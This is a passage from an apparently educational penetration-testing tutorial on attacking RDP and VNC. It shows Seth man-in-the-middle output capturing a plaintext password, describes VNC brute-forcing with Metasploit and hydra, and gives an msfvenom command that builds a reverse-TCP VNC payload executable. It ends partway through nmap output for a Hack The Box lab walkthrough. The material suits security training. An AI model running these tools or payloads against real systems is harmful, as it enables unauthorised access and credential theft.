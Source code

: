 Tamper with NTLM response

Downgrading CredSSP

Connection received from 10.0.1.5:61233

Warning: RC4 not available on client, attack might not work

Listening for new connection

Server enforces NLA; switching to 'fake server' mode

Enable SSL

Connection lost on enableSSL: \[Errno 104\] Connection reset by peer

Hiding forged protocol request from client

.\rin:S3cr3tP@55w0rd

\[\*\]

In this scenario, Network Level Authentication had been configured and so Seth was not able to complete the attack and the connection fails with an error. However, the plaintext username and password are still obtained by the attacker. If the NLA requirement option is switched off, the connection completes, and the user would not be any the wiser.

VNC

VNC is an alternative to RDP that is platform independent. VNC uses the Remote Frame Buffer protocol \(RFB\). It is usually configured to run on ports 5900+N were N is the display number. Whilst RFB is not a secure protocol, VNC can be run through an SSH or VPN tunnel making it secure.

VNC hasn't been the most robust of products and there are numerous serious vulnerabilities in a range of different versions of the product.

VNC may require password but if used, it doesn't need a username. Metasploit has a VNC login brute force module \(auxiliary/scanner/vnc/vnc\_login\) and the command line application hydra can also brute force VNC passwords. A VNC-enabled payload can be created by msfvenom also:

msfvenom -p windows/vncinject/reverse\_tcp LHOST=&lt;Local Host IP address&gt; LPORT=4444 -f exe &gt; payload.exe

Finally, meterpreter can launch a VNC session by running "run vnc" within a meterpreter session.

Exercise: Exploiting VNC for initial access in Hack The Box machine Poison

An nmap scan shows that this machine is running FreeBSD and has port 22 \(SSH\) and port 80 \(HTTP\) open.

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- poison.htb -oA nmap/full-tcp

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 7.2 \(FreeBSD 20161230; protocol 2.0\)

&lt;SNIP&gt;

80/tcp open http Apache httpd 2.4.29 \(\(FreeBSD\) PHP/5.6.32\)

\| http-methods:
